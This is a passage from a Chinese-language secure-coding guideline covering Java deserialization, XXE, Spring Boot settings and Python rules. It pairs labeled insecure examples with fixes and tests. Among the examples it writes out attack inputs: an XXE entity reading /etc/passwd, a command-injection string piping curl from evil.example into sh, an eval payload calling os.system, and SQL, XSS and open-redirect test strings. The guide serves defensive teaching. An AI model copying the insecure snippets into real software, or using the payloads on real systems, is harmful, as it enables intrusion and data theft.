            return in.readObject();
        }
    }
}
```

```java
// ✅ SCG-JAVA-004：無法立即移除原生序列化時（例如舊系統的快取資料），以 ObjectInputFilter 設定允許清單與上限
package com.example.scg.java;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputFilter;
import java.io.ObjectInputStream;

public final class LegacyCacheReader {

    /** 只允許購物車相關類別與必要的 JDK 類別；!* 拒絕其他所有類別。 */
    private static final ObjectInputFilter FILTER = ObjectInputFilter.Config.createFilter(
            "maxdepth=5;maxrefs=1000;maxbytes=65536;maxarray=1000;"
                    + "com.example.cart.CartSnapshot;com.example.cart.CartLine;"
                    + "java.lang.String;java.lang.Number;java.math.BigDecimal;java.math.BigInteger;"
                    + "java.util.ArrayList;!*");

    private LegacyCacheReader() {
    }

    public static Object read(InputStream in) throws IOException, ClassNotFoundException {
        try (ObjectInputStream ois = new ObjectInputStream(in)) {
            ois.setObjectInputFilter(FILTER);
            return ois.readObject();
        }
    }
}
```

```java
// ✅ SCG-JAVA-004：測試不在允許清單的類別（例如 java.util.HashMap）被拒絕
package com.example.scg.java;

import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.InvalidClassException;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import org.junit.jupiter.api.Test;

class LegacyCacheReaderTest {

    @Test
    void rejectsClassesOutsideAllowList() throws Exception {
        var bytes = new ByteArrayOutputStream();
        try (var out = new ObjectOutputStream(bytes)) {
            out.writeObject(new HashMap<String, String>());
        }
        assertThatThrownBy(() -> LegacyCacheReader.read(new ByteArrayInputStream(bytes.toByteArray())))
                .isInstanceOf(InvalidClassException.class);
    }
}
```

```java
// ❌ SCG-JAVA-005：@JsonTypeInfo(use = CLASS) 讓 JSON 中的 "@class" 決定要建立的類別
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS, property = "@class")
public abstract class PaymentMethod { }
```

（片段：Jackson 依類別名稱反序列化的反例。）

```java
// ✅ SCG-JAVA-005：以 sealed interface ＋ Id.NAME 列出允許的子型別；未列出的 type 會被拒絕
package com.example.scg.java;

import com.fasterxml.jackson.annotation.JsonSubTypes;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

@JsonTypeInfo(use = JsonTypeInfo.Id.NAME, property = "type")
@JsonSubTypes({
    @JsonSubTypes.Type(value = PaymentMethod.Card.class, name = "card"),
    @JsonSubTypes.Type(value = PaymentMethod.Transfer.class, name = "transfer")
})
public sealed interface PaymentMethod permits PaymentMethod.Card, PaymentMethod.Transfer {

    record Card(String token) implements PaymentMethod { }

    record Transfer(String bankCode, String accountLast5) implements PaymentMethod { }
}
```

```java
// ✅ SCG-JAVA-005：測試未列出的型別名稱（包括完整類別名稱）會被拒絕（Jackson 3）
package com.example.scg.java;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import org.junit.jupiter.api.Test;
import tools.jackson.databind.json.JsonMapper;

class PaymentMethodTest {

    private final JsonMapper mapper = JsonMapper.builder().build();

    @Test
    void acceptsListedSubtype() {
        assertThat(mapper.readValue("{\"type\":\"card\",\"token\":\"tok_1\"}", PaymentMethod.class))
                .isInstanceOf(PaymentMethod.Card.class);
    }

    @Test
    void rejectsUnknownOrClassNameType() {
        assertThatThrownBy(() -> mapper.readValue(
                "{\"type\":\"java.net.URL\",\"token\":\"x\"}", PaymentMethod.class))
                .isInstanceOf(tools.jackson.core.JacksonException.class);
    }
}
```

#### 🔍 6.2 審查與驗證

- **自動檢查：** FindSecBugs `OBJECT_DESERIALIZATION`、`JACKSON_UNSAFE_DESERIALIZATION`、`XML_DECODER`；Semgrep `java.lang.security.audit.object-deserialization`；以 `git grep -nE "ObjectInputStream|readObject|activateDefaultTyping|enableDefaultTyping|Id.CLASS|XMLDecoder|new Yaml\("` 盤點。FindSecBugs 對使用了 `ObjectInputFilter` 的 `LegacyCacheReader` 仍會報告 `OBJECT_DESERIALIZATION`（它無法判斷過濾器），這是刻意的提醒：原生反序列化只能以例外的方式存在，並且要有移除計畫。
- **人工審查問題：**
  1. 哪些地方會讀取「來自系統外」的序列化資料？快取（Redis）、訊息佇列、Cookie、檔案上傳都算。
  2. 多型 JSON 是否列出了允許的子型別？
  3. 相依套件中是否有已知的反序列化弱點（例如舊版 XStream、SnakeYAML 1.x、Commons Collections 3.2.1）？
- **AI 常見錯誤：** 為了「讓多型 JSON 可以運作」而加上 `activateDefaultTyping(LaissezFaireSubTypeValidator.instance)`；以 Java 序列化把物件存入 Redis 或 Cookie。

### 6.3 XML 外部實體（XXE）

XML 解析器預設可能處理 DTD 與外部實體。攻擊者送入 `<!ENTITY x SYSTEM "file:///etc/passwd">` 就能讀取伺服器檔案，或以 `http://169.254.169.254/` 發動 SSRF。Java 的各種 XML API（DOM、SAX、StAX、Transformer、Schema、XPath）**各自**需要設定，而且預設值因 JDK 版本與實作而不同，因此必須明確設定。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JAVA-006` | 必須 | 解析外部提供的 XML 時，必須禁止 DTD（`http://apache.org/xml/features/disallow-doctype-decl` 設為 `true`）並停用外部實體與外部 DTD 載入；只設定 `FEATURE_SECURE_PROCESSING` 不夠。各種 XML 工廠（`DocumentBuilderFactory`、`SAXParserFactory`、`XMLInputFactory`、`TransformerFactory`、`SchemaFactory`）都必須設定 | 🤖 FindSecBugs `XXE_DOCUMENT`、`XXE_SAXPARSER`、`XXE_XMLSTREAMREADER`；🧪 以含外部實體的 XML 測試 |

```java
// ❌ SCG-JAVA-006：預設設定的 DocumentBuilderFactory
package com.example.scg.bad;

import java.io.InputStream;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class InvoiceXmlBad {
    public Document parse(InputStream xml) throws Exception {
        return DocumentBuilderFactory.newInstance().newDocumentBuilder().parse(xml);
    }
}
```

```java
// ✅ SCG-JAVA-006：安全的 XML 工廠：禁止 DOCTYPE、停用外部實體與 XInclude
package com.example.scg.java;

import javax.xml.XMLConstants;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import javax.xml.stream.XMLInputFactory;

public final class SafeXml {

    private SafeXml() {
    }

    public static DocumentBuilderFactory documentBuilderFactory() throws ParserConfigurationException {
        DocumentBuilderFactory f = DocumentBuilderFactory.newInstance();
        f.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        f.setFeature("http://xml.org/sax/features/external-general-entities", false);
        f.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        f.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
        f.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
        f.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
        f.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");
        f.setXIncludeAware(false);
        f.setExpandEntityReferences(false);
        return f;
    }

    public static XMLInputFactory xmlInputFactory() {
        XMLInputFactory f = XMLInputFactory.newFactory();
        f.setProperty(XMLInputFactory.SUPPORT_DTD, false);
        f.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false);
        return f;
    }
}
```

```java
// ✅ SCG-JAVA-006：測試含 DOCTYPE 的 XML 被拒絕
package com.example.scg.java;

import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.io.ByteArrayInputStream;
import java.nio.charset.StandardCharsets;
import org.junit.jupiter.api.Test;
import org.xml.sax.SAXParseException;

class SafeXmlTest {

    @Test
    void rejectsExternalEntity() {
        String xxe = """
                <?xml version="1.0"?>
                <!DOCTYPE invoice [<!ENTITY x SYSTEM "file:///etc/hosts">]>
                <invoice>&x;</invoice>
                """;
        assertThatThrownBy(() -> SafeXml.documentBuilderFactory().newDocumentBuilder()
                .parse(new ByteArrayInputStream(xxe.getBytes(StandardCharsets.UTF_8))))
                .isInstanceOf(SAXParseException.class)
                .hasMessageContaining("DOCTYPE");
    }
}
```

#### 🔍 6.3 審查與驗證

- **自動檢查：** FindSecBugs `XXE_DOCUMENT`、`XXE_SAXPARSER`、`XXE_XMLREADER`、`XXE_XMLSTREAMREADER`、`XXE_DTD_TRANSFORM_FACTORY`、`XXE_XSLT_TRANSFORM_FACTORY`；以 `SafeXmlTest` 這類測試確認每一個 XML 進入點。
- **人工審查問題：**
  1. 系統中有哪些地方解析 XML？SOAP、SAML、Office 文件（docx、xlsx 都是 ZIP 中的 XML）、SVG 上傳、RSS 都算。
  2. 第三方函式庫（例如報表、Office 處理）內部的 XML 解析是否安全？是否使用最新版本？
- **AI 常見錯誤：** 只設定 `setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)` 就認為安全；只設定 `DocumentBuilderFactory`，卻在別處使用 `TransformerFactory` 或 `SAXParserFactory` 的預設值。

### 6.4 Spring Boot 的安全設定

Spring Boot 的許多預設值是為了開發方便，正式環境必須明確收緊。本節處理程式碼與設定檔中最常見的四類問題：Actuator 端點外洩、CORS 過寬、伺服器端樣板 XSS、開放重新導向。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JAVA-007` | 必須 | Actuator 只能對外公開 `health`（且不顯示細節）與必要的 `info`；`env`、`heapdump`、`threaddump`、`configprops`、`loggers`、`mappings`、`beans` 等端點不得對外公開，必要時放在獨立的管理埠並要求驗證 | 🤖 設定檔檢查（附錄 B.1 Semgrep `scg-actuator-expose-all`）；🧪 對 `/actuator/env` 回 401／404 的測試 |
| `SCG-JAVA-008` | 必須 | CORS 必須明確列出允許的來源（Origin）、方法與標頭；啟用 `allowCredentials` 時不得使用 `*` 或 `allowedOriginPatterns("*")`，也不得把請求的 `Origin` 原樣回傳 | 🧪 以未列出的 Origin 發送預檢請求的測試；🤖 Semgrep |
| `SCG-JAVA-009` | 必須 | 伺服器端樣板必須使用會自動編碼的輸出（Thymeleaf `th:text`、JSP `<c:out>`）；只有在輸出經過 HTML 清理器（OWASP Java HTML Sanitizer）處理的內容時，才能使用 `th:utext` 等不編碼的輸出 | 🤖 Semgrep（`th:utext`）；🧪 XSS 測試 |
| `SCG-JAVA-010` | 必須 | 重新導向的目的地若來自請求參數（例如登入後的 `returnUrl`），必須驗證為站內相對路徑或允許清單中的網域；不得把參數直接放進 `redirect:` 或 `sendRedirect` | 🤖 FindSecBugs `UNVALIDATED_REDIRECT`、`SPRING_UNVALIDATED_REDIRECT`；🧪 以 `//evil.example`、`/\evil.example` 測試 |

```yaml
# ✅ SCG-JAVA-007：Actuator 只公開 health 與 info；細節只給已授權者；其他端點不公開
management:
  endpoints:
    web:
      exposure:
        include: health,info
  endpoint:
    health:
      show-details: when-authorized
      roles: OPS
  info:
    env:
      enabled: false
```

```yaml
# ❌ SCG-JAVA-007：公開所有端點。/actuator/heapdump 可下載含有密碼與權杖的記憶體傾印，/actuator/env 可能顯示設定值
management:
  endpoints:
    web:
      exposure:
        include: "*"
```

> **v2.0 的設定已過時：** v2.0 使用的 `management.endpoints.enabled-by-default: false` 自 Spring Boot 3.4 起已標示為廢棄（deprecated），由 `management.endpoints.access.default: none` 取代（以 Boot 4.1.1 的設定中繼資料確認）。若要預設關閉所有端點再逐一開啟，請改用 `access.default: none` 並對 `health` 設定 `management.endpoint.health.access: read-only`。

```java
// ✅ SCG-JAVA-008：明確列出允許的來源；允許憑證時不使用萬用字元
package com.example.scg.java;

import java.time.Duration;
import java.util.List;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.web.cors.CorsConfiguration;
import org.springframework.web.cors.CorsConfigurationSource;
import org.springframework.web.cors.UrlBasedCorsConfigurationSource;

@Configuration
public class CorsConfig {

    @Bean
    CorsConfigurationSource corsConfigurationSource() {
        CorsConfiguration c = new CorsConfiguration();
        c.setAllowedOrigins(List.of("https://portal.example.com", "https://admin.example.com"));
        c.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
        c.setAllowedHeaders(List.of("Content-Type", "X-XSRF-TOKEN"));
        c.setAllowCredentials(true);
        c.setMaxAge(Duration.ofHours(1));
        UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        source.registerCorsConfiguration("/api/**", c);
        return source;
    }
}
```

```java
// ❌ SCG-JAVA-008：允許任何來源並附帶憑證。任何網站都能以使用者的身分呼叫 API 並讀取回應
config.setAllowedOriginPatterns(List.of("*"));
config.setAllowCredentials(true);
```

（片段：CORS 過寬的反例。）

```html
<!-- ❌ SCG-JAVA-009：th:utext 不編碼，留言內容中的 <script> 會被執行 -->
<div class="comment" th:utext="${comment.body}"></div>
<!-- ✅ SCG-JAVA-009：th:text 自動 HTML 編碼 -->
<div class="comment" th:text="${comment.body}"></div>
<!-- ✅ SCG-JAVA-009：必須保留格式時，只輸出經 OWASP Java HTML Sanitizer 清理過的欄位 -->
<div class="comment" th:utext="${comment.sanitizedBodyHtml}"></div>
```

```java
// ✅ SCG-JAVA-009：允許有限的 HTML 格式時，以 OWASP Java HTML Sanitizer 依允許清單清理
package com.example.scg.java;

import org.owasp.html.HtmlPolicyBuilder;
import org.owasp.html.PolicyFactory;
import org.owasp.html.Sanitizers;

public final class CommentSanitizer {

    private static final PolicyFactory POLICY = Sanitizers.FORMATTING
            .and(Sanitizers.BLOCKS)
            .and(new HtmlPolicyBuilder()
                    .allowElements("a")
                    .allowUrlProtocols("https")
                    .allowAttributes("href").onElements("a")
                    .requireRelsOnLinks("noopener", "noreferrer", "nofollow")
                    .toFactory());

    private CommentSanitizer() {
    }

    public static String sanitize(String untrustedHtml) {
        return POLICY.sanitize(untrustedHtml);
    }
}
```

```java
// ✅ SCG-JAVA-009：測試清理器移除腳本、事件屬性與 javascript: 連結
package com.example.scg.java;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;

class CommentSanitizerTest {

    @Test
    void removesScriptsAndDangerousAttributes() {
        String out = CommentSanitizer.sanitize(
                "<b>好評</b><script>alert(1)</script><a href=\"javascript:alert(1)\">x</a>");
        assertThat(out).contains("<b>好評</b>")
                .doesNotContain("<script").doesNotContain("onerror").doesNotContain("javascript:");
    }

    @Test
    void keepsHttpsLinksWithSafeRel() {
        assertThat(CommentSanitizer.sanitize("<a href=\"https://example.com\">連結</a>"))
                .contains("href=\"https://example.com\"").contains("noopener");
    }
}
```

```java
// ✅ SCG-JAVA-010：只接受站內相對路徑；拒絕 //evil.example、/\evil.example、https://evil.example 等形式
package com.example.scg.java;

import java.net.URI;
import java.net.URISyntaxException;

public final class SafeRedirect {

    private SafeRedirect() {
    }

    public static String target(String returnUrl) {
        if (returnUrl == null || returnUrl.isBlank()) {
            return "/";
        }
        if (!returnUrl.startsWith("/") || returnUrl.startsWith("//") || returnUrl.contains("\\")
                || returnUrl.chars().anyMatch(Character::isISOControl)) {
            return "/";
        }
        try {
            URI uri = new URI(returnUrl);
            if (uri.getScheme() != null || uri.getRawAuthority() != null) {
                return "/";
            }
        } catch (URISyntaxException e) {
            return "/";
        }
        return returnUrl;
    }
}
```

```java
// ✅ SCG-JAVA-010：測試常見的開放重新導向繞過手法
package com.example.scg.java;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;

class SafeRedirectTest {

    @Test
    void rejectsExternalTargets() {
        for (String bad : new String[] {"https://evil.example", "//evil.example", "/\\evil.example",
                "\\\\evil.example", "javascript:alert(1)", "/%0d%0aSet-Cookie:x=y", "/\tevil"}) {
            String t = SafeRedirect.target(bad);
            assertThat(t).as(bad).satisfiesAnyOf(v -> assertThat(v).isEqualTo("/"),
                    v -> assertThat(v).startsWith("/").doesNotStartWith("//").doesNotContain("\\"));
        }
        assertThat(SafeRedirect.target("//evil.example")).isEqualTo("/");
        assertThat(SafeRedirect.target("/\\evil.example")).isEqualTo("/");
    }

    @Test
    void keepsLocalPaths() {
        assertThat(SafeRedirect.target("/orders/42?tab=items")).isEqualTo("/orders/42?tab=items");
    }
}
```

#### 🔍 6.4 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 規則 `scg-actuator-expose-all`（`exposure.include: "*"`）、`scg-thymeleaf-utext`；FindSecBugs `SPRING_UNVALIDATED_REDIRECT`、`UNVALIDATED_REDIRECT`、`PERMISSIVE_CORS`；ZAP 主動掃描的開放重新導向規則；以 `curl -H "Origin: https://evil.example" -I` 確認回應沒有 `Access-Control-Allow-Origin`。
- **人工審查問題：**
  1. 正式環境的設定檔（`application-prod.yml`、Kubernetes ConfigMap）是否覆寫了 Actuator 的公開範圍？
  2. CORS 設定是否會因環境不同而變寬（例如以環境變數注入 `*`）？
  3. 登入、登出、OAuth 回呼後的導向目標從哪裡來？
- **AI 常見錯誤：** `exposure.include: "*"` 讓「監控可以看到所有東西」；`@CrossOrigin(origins = "*")` 加在 Controller 上；以 `"redirect:" + returnUrl` 實作登入後導回；以 `th:utext` 輸出富文字而未清理。

## 7. Python

Python 常用於後端服務（FastAPI、Django、Flask）、資料處理、自動化腳本與 AI 應用。它的動態特性讓許多危險 API（`eval`、`pickle`、`shell=True`）用起來非常方便，也因此成為 AI 程式碼助理最常產生的不安全寫法。本章的每條規則都對應 [Bandit](https://bandit.readthedocs.io/) 的檢查編號，CI 中執行 Bandit 即可自動發現大部分問題（設定見附錄 B.4）。

### 7.1 命令執行與動態程式碼

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-PY-001` | 必須 | 執行外部程式必須使用 `subprocess.run` 並以串列傳入參數、保持 `shell=False`（預設值）、設定 `timeout`；不得使用 `os.system`、`os.popen`、`subprocess` 的 `shell=True` 處理含外部輸入的命令 | 🤖 Bandit `B602`、`B605`、`B607`；🤖 Semgrep |
| `SCG-PY-002` | 必須 | 不得以 `eval`、`exec`、`compile` 處理外部輸入；需要解析資料時使用 `json.loads`，需要解析 Python 字面值時使用 `ast.literal_eval` | 🤖 Bandit `B307`、`B102` |

```python
# ❌ SCG-PY-001：shell=True 加上字串格式化。user_dir 輸入 "logs; curl https://evil.example/x | sh" 即可執行任意命令
import subprocess


def list_dir(user_dir: str) -> str:
    return subprocess.check_output(f"ls -l /srv/data/{user_dir}", shell=True, text=True)
```

```python
# ✅ SCG-PY-001：參數串列、不經 shell、允許清單驗證、設定逾時
import subprocess
from pathlib import Path

ALLOWED_DIRS = {"logs", "reports", "exports"}
BASE = Path("/srv/data")


def list_dir(user_dir: str) -> str:
    if user_dir not in ALLOWED_DIRS:
        raise ValueError("不允許的目錄")
    result = subprocess.run(  # noqa: S603 - 參數為固定程式與允許清單中的值
        ["/usr/bin/ls", "-l", "--", str(BASE / user_dir)],
        capture_output=True,
        text=True,
        timeout=10,
        check=True,
    )
    return result.stdout
```

```python
# ❌ SCG-PY-002：以 eval 解析使用者提供的「設定」。輸入 __import__('os').system('id') 即可執行命令
def parse_filter(expr: str) -> dict:
    return eval(expr)
```

```python
# ✅ SCG-PY-002：以 json 或 ast.literal_eval 解析資料；literal_eval 只接受字面值，不會呼叫函式
import ast
import json


def parse_filter(expr: str) -> dict:
    try:
        value = json.loads(expr)
    except json.JSONDecodeError:
        value = ast.literal_eval(expr)  # 只接受 dict、list、str、數字等字面值
    if not isinstance(value, dict):
        raise ValueError("篩選條件必須是物件")
    return value
```

#### 🔍 7.1 審查與驗證

- **自動檢查：** `bandit -r src -ll`（設定見附錄 B.4），`B602`（`shell=True`）、`B605`（`os.system`）、`B607`（未指定完整路徑的程式）、`B307`（`eval`）、`B102`（`exec`）必須為零或有例外編號；Ruff 的 `S` 規則集（flake8-bandit）可在 IDE 中即時提示。
- **人工審查問題：**
  1. 傳給 `subprocess` 的串列中，第一個元素（程式名稱）是否可能被外部控制？
  2. 有沒有以 `shlex.quote` 「修正」`shell=True` 的寫法？它只能處理 POSIX shell，在 Windows 的 `cmd.exe` 無效，應優先移除 shell。
- **AI 常見錯誤：** `subprocess.run(cmd, shell=True)`；以 `eval` 解析 JSON 或設定；以 `exec` 實作「外掛」或「動態規則」。

### 7.2 反序列化、XML 與正規表示式

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-PY-003` | 必須 | 不得以 `pickle`、`marshal`、`shelve`、`dill`、`joblib.load`、`yaml.load`（非安全載入器）處理不可信的資料；改用 `json` 或 `yaml.safe_load`。載入外部來源的機器學習模型時，應使用 `safetensors` 等不可執行程式碼的格式（見第 16 章） | 🤖 Bandit `B301`、`B403`、`B506` |
| `SCG-PY-004` | 必須 | 解析外部提供的 XML 必須使用 `defusedxml`，不得使用標準函式庫的 `xml.etree`、`xml.dom.minidom`、`xml.sax`、`lxml` 預設設定 | 🤖 Bandit `B313`–`B320`、`B405`–`B410` |
| `SCG-PY-005` | 必須 | 以正規表示式驗證整個字串時，必須使用 `re.fullmatch`（或以 `\A...\Z` 錨定）；`re.match` 加上 `$` 會接受結尾的換行字元 | 🧪 以結尾換行的輸入測試；🤖 Semgrep 自訂規則 |

```python
# ❌ SCG-PY-003：以 pickle 載入使用者上傳的檔案；pickle 在載入時就會執行物件指定的函式
import pickle


def load_profile(data: bytes) -> dict:
    return pickle.loads(data)
```

```python
# ✅ SCG-PY-003、SCG-PY-004：資料格式改用 JSON 與 safe_load；XML 使用 defusedxml
import json

import yaml
from defusedxml import ElementTree as SafeET


def load_profile(data: bytes) -> dict:
    return json.loads(data)


def load_settings(text: str) -> dict:
    return yaml.safe_load(text)


def parse_invoice(xml_bytes: bytes) -> str:
    root = SafeET.fromstring(xml_bytes)  # 含 DTD 或外部實體時拋出 defusedxml 的例外
    return root.findtext("number", default="")
```

```python
# ❌ SCG-PY-004：標準函式庫的 ElementTree 不防護實體擴展（billion laughs）
import xml.etree.ElementTree as ET


def parse_invoice(xml_bytes: bytes) -> str:
    return ET.fromstring(xml_bytes).findtext("number", default="")
```

```python
# ✅ SCG-PY-005：re.fullmatch 要求整個字串符合；re.match + $ 會接受 "12345678\n"
import re

TAX_ID = re.compile(r"\d{8}")


def is_tax_id(value: str) -> bool:
    return TAX_ID.fullmatch(value) is not None


def test_trailing_newline_is_rejected() -> None:
    assert is_tax_id("12345678")
    assert not is_tax_id("12345678\n")
    assert re.match(r"^\d{8}$", "12345678\n") is not None  # ❌ SCG-PY-005：這就是 re.match + $ 的陷阱
```

#### 🔍 7.2 審查與驗證

- **自動檢查：** Bandit `B301`（pickle）、`B403`（import pickle）、`B506`（`yaml.load`）、`B313`–`B320`（XML 解析）、`B405`–`B410`（import XML 模組）；`pytest` 執行 7.2 的換行測試。
- **人工審查問題：**
  1. 快取（Redis、檔案）中是否以 pickle 儲存物件？若快取可被其他服務寫入，等同不可信資料。
  2. 處理 Office 文件、SVG、RSS 的函式庫內部是否使用安全的 XML 解析？
- **AI 常見錯誤：** `yaml.load(text)`（沒有指定 `Loader`）；以 `joblib.load` 或 `torch.load` 載入使用者上傳的模型；`re.match(r"^...$", s)` 作為驗證。

### 7.3 Web 框架與網路存取

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-PY-006` | 必須 | 資料庫查詢必須使用驅動程式的參數綁定（`cursor.execute(sql, params)`）或 SQLAlchemy 的繫結參數；不得以 f-string、`%`、`.format()` 或字串串接組合 SQL | 🤖 Bandit `B608`；🤖 Semgrep `python.lang.security.audit.formatted-sql-query` |
| `SCG-PY-007` | 必須 | 對外的 HTTP 請求（`requests`、`httpx`、`urllib3`）必須設定逾時，且不得設定 `verify=False` | 🤖 Bandit `B113`、`B501` |
| `SCG-PY-008` | 必須 | 正式環境不得啟用框架的除錯模式（Flask `debug=True`、Django `DEBUG = True`、FastAPI 的除錯例外頁）；Jinja2 必須啟用 `autoescape`；不得對使用者輸入使用 `Markup`、`mark_safe`、`|safe` | 🤖 Bandit `B201`、`B104`、`B701`、`B703`、`B704`、`B308`；🤖 Django `manage.py check --deploy` |
| `SCG-PY-009` | 必須 | 與安全相關的亂數必須使用 `secrets` 模組；暫存檔必須使用 `tempfile.mkstemp`、`NamedTemporaryFile`、`TemporaryDirectory`，不得使用 `tempfile.mktemp` 或寫死 `/tmp` 下的固定檔名 | 🤖 Bandit `B311`、`B306`、`B108` |

```python
# ❌ SCG-PY-006：以 f-string 組合 SQL
import sqlite3


def find_user(conn: sqlite3.Connection, name: str):
    return conn.execute(f"SELECT id, name FROM users WHERE name = '{name}'").fetchall()
```

```python
# ✅ SCG-PY-006：DB-API 參數綁定；SQLAlchemy 以 text() 搭配具名參數
import sqlite3

from sqlalchemy import text
from sqlalchemy.engine import Connection


def find_user(conn: sqlite3.Connection, name: str):
    return conn.execute("SELECT id, name FROM users WHERE name = ?", (name,)).fetchall()


def find_orders(conn: Connection, customer_id: int):
    stmt = text("SELECT id, amount FROM customer_order WHERE customer_id = :cid")
    return conn.execute(stmt, {"cid": customer_id}).all()


def test_injection_payload_is_treated_as_data() -> None:
    db = sqlite3.connect(":memory:")
    db.execute("CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT)")
    db.execute("INSERT INTO users (name) VALUES ('alice')")
    assert find_user(db, "' OR '1'='1") == []
    assert find_user(db, "alice") == [(1, "alice")]
```

```python
# ❌ SCG-PY-007：沒有逾時（對方不回應時，工作執行緒會被永久卡住）且關閉憑證驗證
import requests


def fetch_rates() -> dict:
    return requests.get("https://rates.example.com/v1/twd", verify=False).json()
```

```python
# ✅ SCG-PY-007：設定連線與讀取逾時、驗證憑證（預設）、檢查 HTTP 狀態
import requests

TIMEOUT = (3.05, 10)  # (連線逾時, 讀取逾時) 秒


def fetch_rates() -> dict:
    resp = requests.get("https://rates.example.com/v1/twd", timeout=TIMEOUT)
    resp.raise_for_status()
    return resp.json()
```

```python
# ✅ SCG-PY-008：Flask 從環境變數讀取設定，預設關閉除錯；Jinja2 的 HTML 樣板預設自動編碼
import os

from flask import Flask, render_template_string

app = Flask(__name__)
app.config.update(
    SECRET_KEY=os.environ["FLASK_SECRET_KEY"],
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE="Lax",
)


@app.get("/hello/<name>")
def hello(name: str) -> str:
    return render_template_string("<p>你好，{{ name }}</p>", name=name)  # {{ }} 自動 HTML 編碼


if __name__ == "__main__":
    app.run(debug=os.environ.get("FLASK_DEBUG") == "1")
```

```python
# ❌ SCG-PY-008：正式環境開啟除錯（Werkzeug 除錯器可在瀏覽器中執行任意 Python 程式碼），並以 Markup 輸出使用者輸入
from flask import Flask
from markupsafe import Markup

app = Flask(__name__)


@app.get("/hello/<name>")
def hello(name: str) -> str:
    return Markup("<p>你好，" + name + "</p>")


app.run(host="0.0.0.0", debug=True)
```

```python
# ✅ SCG-PY-009：權杖使用 secrets；暫存檔使用 TemporaryDirectory，結束時自動刪除
import secrets
import tempfile
from pathlib import Path


def new_api_key() -> str:
    return secrets.token_urlsafe(32)


def export_report(rows: list[str]) -> bytes:
    with tempfile.TemporaryDirectory(prefix="report-") as tmp:
        path = Path(tmp) / "report.csv"
        path.write_text("\n".join(rows), encoding="utf-8")
        return path.read_bytes()
```

```python
# ❌ SCG-PY-009：random 可被預測；固定的 /tmp 檔名可被其他使用者預先建立符號連結（symlink attack）
import random
import string


def new_api_key() -> str:
    return "".join(random.choice(string.ascii_letters) for _ in range(32))


def export_report(rows: list[str]) -> None:
    with open("/tmp/report.csv", "w", encoding="utf-8") as f:
        f.write("\n".join(rows))
```

#### 🔍 7.3 審查與驗證

- **自動檢查：** Bandit `B608`、`B113`、`B501`、`B201`、`B104`、`B701`、`B703`（Django `mark_safe`）、`B704`（`markupsafe.Markup`）、`B308`、`B311`、`B306`、`B108`；Django 專案執行 `python manage.py check --deploy`，檢查 `DEBUG`、`SECURE_HSTS_SECONDS`、`SESSION_COOKIE_SECURE`、`CSRF_COOKIE_SECURE` 等設定；`pip-audit` 檢查相依套件弱點（見第 15 章）。
- **人工審查問題：**
  1. 有沒有任何 `requests` 呼叫沒有 `timeout`？（`requests` 預設**沒有**逾時。）
  2. 正式環境的啟動方式是否為 Gunicorn／Uvicorn 等正式伺服器，而不是 `app.run()`？
  3. FastAPI 的 Pydantic 模型是否有長度上限（`Field(max_length=...)`）？
- **AI 常見錯誤：** `requests.get(url)` 沒有逾時；`app.run(debug=True)`；以 f-string 組合 SQL；以 `random` 產生驗證碼；以 `|safe` 輸出使用者內容。

## 8. JavaScript／TypeScript／Node.js

本章處理 JavaScript 語言本身與 Node.js 伺服器端的弱點。瀏覽器端與前端框架（Vue、Angular、React）的 XSS 防護見第 9 章。TypeScript 能在編譯期找出許多錯誤，但**型別只存在於編譯期**，對來自網路的資料沒有任何保護力，這是本章 8.3 節的重點。

### 8.1 命令、動態程式碼與路徑

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JS-001` | 必須 | 執行外部程式必須使用 `execFile` 或 `spawn` 並以陣列傳入參數，不得設定 `shell: true`；不得以 `exec`、`execSync` 執行含外部輸入的命令字串 | 🤖 ESLint `security/detect-child-process`；🤖 Semgrep |
| `SCG-JS-002` | 必須 | 不得以 `eval`、`new Function`、`setTimeout(字串)`、`vm.runInContext` 執行外部輸入；Node.js 的 `vm` 模組**不是**安全沙箱，不得用來隔離不可信的程式碼 | 🤖 ESLint `no-eval`、`no-new-func`、`no-implied-eval`、`security/detect-eval-with-expression` |
| `SCG-JS-003` | 必須 | 以外部輸入組合檔案路徑時，必須以 `path.resolve` 解析後確認結果仍在允許的基底目錄內（以 `base + path.sep` 為前綴比對），或改以 ID 對應到伺服器端決定的檔名 | 🤖 ESLint `security/detect-non-literal-fs-filename`（提示用）；🧪 以 `../`、絕對路徑、URL 編碼測試 |

```typescript
